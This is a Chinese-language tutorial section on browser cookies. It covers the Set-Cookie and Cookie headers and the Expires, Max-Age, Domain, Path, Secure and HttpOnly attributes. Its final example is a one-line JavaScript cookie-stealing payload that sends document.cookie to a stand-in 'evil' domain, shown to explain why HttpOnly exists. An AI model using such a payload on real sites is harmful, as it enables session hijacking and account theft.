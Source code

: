 ### 10.5 Cookie:a:

#### 概述

cookie 是服务器在浏览器存储的很小的文本信息，通常小于4KB， 浏览器发出请求时，会附带cookie。服务器可以判断两次的请求是否来源于一个浏览器，可以保存用户自定义设置（语言，侧栏宽度，风格），保存token。注意：cookie 很小，不适合保存大量数据，如果cookie很大影响性能（大量存储放在storage中）。cookie包括：

- Cookie 的名字
- Cookie 的值（真正的数据写在这里面）
- 到期时间
- 所属域名（默认是当前域名）：如果是某个域名下的cookie，URL必须是这个域名才能携带这部分cookie
- 生效的路径（默认是当前网址）

可以通过 window.navigator.cookieEnabled 判断浏览器是否支持cookie。

根据同源策略：两个网址只要域名和端口相同可以共享cookie(协议不同也可以)

#### cookie 与 http

浏览器发出请求，服务器在响应头中可以设置cookie(可以设置多个cookie)	如果服务器端想改一个cookie，需要域名和路径完全相同才能改。

~~~bash
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: token=sdfghjklertyuiop
Set-Cookie: tasty_cookie=strawberry
Set-Cookie: key1=value2; domain=example.com; path=/blog
~~~

浏览器发出请求时，就会携带cookie；服务器获取cookie后，不能判断cookie的过期时间和路径

~~~bash
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: token=sdfghjklertyuiop; yummy_cookie=choco; tasty_cookie=strawberry
~~~

#### 属性

Expires Expires 表示cookie的过期时间，浏览器根据本地时间确定cookie是否过期（本地时间可能不准确）；

Max-Age Max-age 表示从现在开始，cookie 存在的秒数（7天内登录）；如果不设置这两个属性，那么 cookie 就是 session（对话） cookie，就在本次对话结束后销毁。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

Domain 说明cookie的域名和路径，只有满足这个域名后，发送请求才添加cookie；

Path 只有URL中包括路径才添加cookie（前提是同源策略，域名和端口号一致）

Secure 只有协议是HTTPS才保存cookie，如果是http请求，浏览器会忽略这个cookie

HTTPOnly 只有http请求才能获取并发送当前的cookie，不能通过脚本获取cookie，避免恶意脚本跨站注入攻击。这里创建一个空图片，并把cookie发送到一个危险网站（用户名和密码）；如果设置了一个 Cookie 的`HttpOnly`属性，JS代码就不会读到该 Cookie。

~~~js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
~~~
